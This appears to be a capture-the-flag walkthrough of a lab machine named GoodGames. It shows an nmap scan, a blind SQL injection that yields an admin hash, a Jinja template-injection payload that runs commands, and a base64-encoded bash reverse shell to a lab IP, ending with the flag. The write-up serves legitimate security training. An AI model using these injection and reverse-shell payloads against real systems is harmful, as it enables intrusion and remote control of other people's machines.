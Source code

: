 Nmap
```
└─$ nmap -sCV -p- 10.129.226.138                                                                                                                                                                                                    
Nmap scan report for 10.129.226.138 
Host is up (0.019s latency). 
Not shown: 65534 closed ports 
PORT   STATE SERVICE  VERSION 
80/tcp open  ssl/http Werkzeug/2.0.2 Python/3.9.2 
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2 
|_http-title: GoodGames | Community and Store 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 441.90 second
```
Time based blind sql injection in sign in page

![image](https://user-images.githubusercontent.com/87831546/142666137-ceea7690-cae8-4822-bc26-9b876198f1cf.png)

Dump the users table and we find admin credentials
```
admin@goodgames.htb
2b22337f218b2d82dfc3b6f77e7cb8ec
```

Crack the hash and logging into admin account and clicking on the settings feature we find subdomain:
```
internal-administration
```
![image](https://user-images.githubusercontent.com/87831546/142666394-11ee96c4-64db-474f-84a0-b04c1596f3c0.png)

Add to /etc/hosts

![image](https://user-images.githubusercontent.com/87831546/142666449-b32e99e2-1e05-436b-80a5-0687144c6b03.png)

Login with 
```
admin@goodgames.htb
superadministrator
```
![image](https://user-images.githubusercontent.com/87831546/142666482-c888bc72-307e-45ac-a17e-272420a7c995.png)

Flask application and SSTI in the Full Name field
![image](https://user-images.githubusercontent.com/87831546/142666543-8ccb3f45-0888-4244-a549-2cfcd97ec2a0.png)

Command execution throuhg SSTI:
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
```
Get reverse shell by base64 encoding bash reverse shell then piping to base64 decode and then piped to bash
```
bash -i >& /dev/tcp/10.10.14.42/4242 0>&1
```
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40Mi8xMjM0IDA+JjE= | base64 -d | bash').read() }}
```
```
HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}
````
